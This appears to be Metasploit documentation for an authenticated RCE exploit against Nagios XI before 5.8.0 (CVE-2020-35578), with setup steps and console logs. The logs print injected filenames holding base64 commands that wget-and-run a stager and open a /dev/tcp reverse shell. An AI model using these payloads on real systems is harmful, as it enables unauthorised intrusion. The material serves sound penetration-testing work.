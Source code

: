 ## Vulnerable Application
This module exploits a vulnerability (CVE-2020-35578) in `/admin/monitoringplugins.php`
that enables an authenticated admin user to achieve remote code execution as the `apache` user by uploading a malicious plugin.

The module's `check` method takes advantage of the `Msf::Exploit::Remote::HTTP::NagiosXi` mixin in order to authenticate to the target and
obtain the Nagios XI version number, which is then used to check if the target is Nagios XI prior to 5.8.0 and therefore vulnerable.

Next, the module executes a base64 encoded payload via an HTTP POST request to `/admin/monitoringplugins.php`.
This request creates a new plugin entry and a corresponding file in `/usr/local/nagios/libexec/` with the full payload as the name.
Deleting the malicious plugin/file via the web interface failed during testing, so it is automatically deleted when a session spawns.

The module supports `linux/x64` and `linux/x86` payloads (target 0) as well as `cmd/unix` payloads (target 1).

Valid credentials for a Nagios XI admin user are required.
This module has been successfully tested against Nagios XI 5.7.3 running on CentOS 7.

Vulnerable software for testing is vavailable [here](https://assets.nagios.com/downloads/nagiosxi/versions.php).
Detailed installation instructions are available
[here](https://assets.nagios.com/downloads/nagiosxi/docs/Installing-Nagios-XI-Manually-on-Linux.pdf)
and an official video tutorial is available [here](https://www.youtube.com/watch?v=fBWA6t6dJ4I).

## Verification Steps
1. Start msfconsole
2. Do: `use exploit/linux/http/nagios_xi_plugins_filename_authenticated_rce`
3. Do: `set RHOSTS [IP]`
4. Do: `set USERNAME [username for the Nagios XI account]`
5. Do: `set PASSWORD [password for the Nagios XI account]`
6. Do: `set target [target]`
7. Do: `set payload [payload]`
8. Do: `set LHOST [IP]`
9. Do: `exploit`

## Options
### PASSWORD
The password for the Nagios XI account to authenticate with.
### TARGETURI
The base path to Nagios XI. The default value is `/nagiosxi/`.
### USERNAME
The username for the Nagios XI account to authenticate with. The default value is `nagiosadmin`.

## Targets
```
Id  Name
--  ----
0   Linux
1   CMD
```

## Scenarios
### Nagios XI 5.7.3 running on CentOS 7 - Linux target
```
msf6 exploit(linux/http/nagios_xi_plugins_filename_authenticated_rce) > show options 

Module options (exploit/linux/http/nagios_xi_plugins_filename_authenticated_rce):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   PASSWORD   nagiosadmin      yes       Password to authenticate with
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     192.168.1.14     yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      80               yes       The target port (TCP)
   SRVHOST    0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT    8080             yes       The local port to listen on.
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /nagiosxi/       yes       The base path to the NagiosXi application
   URIPATH                     no        The URI to use for this exploit (default is random)
   USERNAME   nagiosadmin      yes       Username to authenticate with
   VHOST                       no        HTTP server virtual host


Payload options (linux/x86/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.1.12     yes       The listen address (an interface may be specified)
   LPORT  4011             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Linux


msf6 exploit(linux/http/nagios_xi_plugins_filename_authenticated_rce) > run

[*] Started reverse TCP handler on 192.168.1.12:4011 
[*] Executing automatic check (disable AutoCheck to override)
[+] Successfully authenticated to Nagios XI
[*] Target is Nagios XI with version 5.7.3
[+] The target appears to be vulnerable.
[*] Using URL: http://0.0.0.0:8080/eaGWp8C5GQVvqG
[*] Local IP: http://192.168.1.12:8080/eaGWp8C5GQVvqG
[*] Client 192.168.1.14 (Wget/1.14 (linux-gnu)) requested /eaGWp8C5GQVvqG
[*] Sending payload to 192.168.1.14 (Wget/1.14 (linux-gnu))
[*] Sending stage (976712 bytes) to 192.168.1.14
[*] Command Stager progress - 100.00% done (121/121 bytes)
[*] Meterpreter session 1 opened (192.168.1.12:4011 -> 192.168.1.14:48622) at 2021-02-01 12:33:13 -0500
[*] Server stopped.
[!] This exploit may require manual cleanup of '/usr/local/nagios/libexec/;echo d2dldCAtcU8gL3RtcC9oanVBa3lrYSBodHRwOi8vMTkyLjE2OC45MS4xMjg6ODA4MC9lYUdXcDhDNUdRVnZxRztjaG1vZCAreCAvdG1wL2hqdUFreWthOy90bXAvaGp1QWt5a2E7cm0gLWYgL3RtcC9oanVBa3lrYQ== | base64 -d | bash;#' on the target

meterpreter > 
[+] Deleted /usr/local/nagios/libexec/;echo d2dldCAtcU8gL3RtcC9oanVBa3lrYSBodHRwOi8vMTkyLjE2OC45MS4xMjg6ODA4MC9lYUdXcDhDNUdRVnZxRztjaG1vZCAreCAvdG1wL2hqdUFreWthOy90bXAvaGp1QWt5a2E7cm0gLWYgL3RtcC9oanVBa3lrYQ== | base64 -d | bash;#
getuid
Server username: apache @ localhost.localdomain (uid=48, gid=48, euid=48, egid=48)
```
### Nagios XI 5.7.3 running on CentOS 7 - CMD target
```
msf6 exploit(linux/http/nagios_xi_plugins_filename_authenticated_rce) > run

[*] Started reverse TCP handler on 192.168.1.12:4012 
[*] Executing automatic check (disable AutoCheck to override)
[+] Successfully authenticated to Nagios XI
[*] Target is Nagios XI with version 5.7.3
[+] The target appears to be vulnerable.
[*] Executing the payload
[*] Command shell session 2 opened (192.168.1.12:4012 -> 192.168.1.14:40864) at 2021-02-01 12:35:09 -0500
[+] Deleted /usr/local/nagios/libexec/;echo MDwmNTYtO2V4ZWMgNTY8Pi9kZXYvdGNwLzE5Mi4xNjguOTEuMTI4LzQwMTI7c2ggPCY1NiA+JjU2IDI+JjU2 | base64 -d | bash;#

id
uid=48(apache) gid=48(apache) groups=48(apache),1000(nagios),1001(nagcmd)
```

